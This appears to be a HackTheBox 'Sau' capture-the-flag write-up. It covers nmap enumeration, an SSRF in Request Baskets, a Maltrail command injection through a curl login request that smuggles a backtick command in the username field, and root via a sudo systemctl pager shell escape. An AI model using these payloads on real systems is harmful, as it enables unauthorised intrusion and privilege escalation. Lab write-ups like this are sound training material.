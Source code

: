  </br>[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=Sau-HackTheBox)](https://git.io/typing-svg)
</br>
![image](https://github.com/ACHUX21/Writeups/assets/130113878/28702117-6795-465c-9527-a4054c414a7e)

# Enumeration

```bash
# Nmap 7.80 scan initiated Sun Jul  9 20:56:56 2023 as: nmap -sCV -oN Nmap -p- -vvv 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up, received echo-reply ttl 63 (0.31s latency).
Scanned at 2023-07-09 20:56:56 +01 for 585s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 09 Jul 2023 20:05:50 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 09 Jul 2023 20:05:51 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.80%I=7%D=7/9%Time=64AB131E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\x
SF:20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2009\x20Jul\x202
SF:023\x2020:05:50\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/we
SF:b\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2020
SF:0\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2009\x20Jul\x202
SF:023\x2020:05:51\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20ch
SF:arset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Ke
SF:rberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  9 21:06:41 2023 -- 1 IP address (1 host up) scanned in 584.89 seconds
```
</br>

[! POC](https://github.com/darklynx/request-baskets)

During my reconnaissance phase, I discovered a website that utilizes the Request Baskets service. 
</br>
This web service provides me with the flexibility to collect and examine HTTP requests through either a RESTful API or a user-friendly web interface

![image](https://github.com/ACHUX21/Writeups/assets/130113878/560e444d-8bd9-4daa-82ee-7dd6e301d54f)

An intriguing detail we observed is that the service we stumbled upon is running an outdated version, whereas the most recent version available is 1.2.3. 
This divergence raises the possibility of potential vulnerabilities that we can exploit during our exploitation process.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/77afb146-755e-423f-a258-df1685262d36)

While conducting the vulnerability assessment for this particular system version, I discovered an SSRF (Server-Side Request Forgery) vulnerability.
This vulnerability exposes a significant risk as it allows for the unauthorized disclosure of confidential information, including port enumeration.

```json
{
  "forward_url": "http://127.0.0.1:80/test",
  "proxy_response": false,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

Following the outlined steps in the documentation, I proceeded to create a new basket. 
However, I deviated from the default GET request method and modified it to a POST request, making the following adjustments.

By leveraging the SSRF vulnerability, I successfully created a targeted route that allowed me access. 
Within this route, I proceeded to exploit the SSRF vulnerability further, capitalizing on its weaknesses.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/206e245e-494a-4b22-be1b-e8c6a94c4074)

```http://10.10.11.224:55555/web/achux21```

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0f5c895b-8629-4e65-aaab-5758f0eb10b7)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/f00be81b-f91e-4cda-9769-bcab86f16cb8)


While accessing the route generated by exploiting the SSRF vulnerability, we came across the Maltrail application.
Maltrail serves as a robust system for detecting and analyzing malicious network traffic. 
It relies on public lists containing suspicious and malicious traces, as well as static traces obtained from reports by various antivirus providers
However, it is essential to highlight that the version of Maltrail we encountered is outdated, potentially implying the presence of unaddressed vulnerabilities.

[Matrail V0.53](https://github.com/stamparm/maltrail)


During the analysis, I discovered an unauthenticated command execution vulnerability within the Maltrail application. 
This vulnerability resides in the subprocess.check_output function, specifically in the file mailtrail/core/httpd.py.
The root cause of this vulnerability is a command injection flaw present in the params.get("username") parameter.

[https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87](https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/3bde8930-a81e-4cd6-9122-698c80fcd9fc)

By exploiting this vuln we could have a remote code execution.

```bash
curl 'http://hostname:8338/login' \
  --data 'username=;`id &gt; /tmp/bbq`'
```
![image](https://github.com/ACHUX21/Writeups/assets/130113878/465aa762-6566-4472-bb11-f89508166417)

# Privilege Escalation

it's time to focus on privilege escalation.

```bash
script /dev/null -c bash
sudo  /usr/bin/systemctl status trail.service
!sh
```


```bash
script /dev/null -c bash
sudo  /usr/bin/systemctl status trail.service
!sh
```
![image](https://github.com/ACHUX21/Writeups/assets/130113878/9a551f35-dead-4e8e-9715-9c248c2d006a)


```bash
sudo -l
```
![image](https://github.com/ACHUX21/Writeups/assets/130113878/28b72b20-2633-492a-b25c-ab9a253db14a)

 BYE
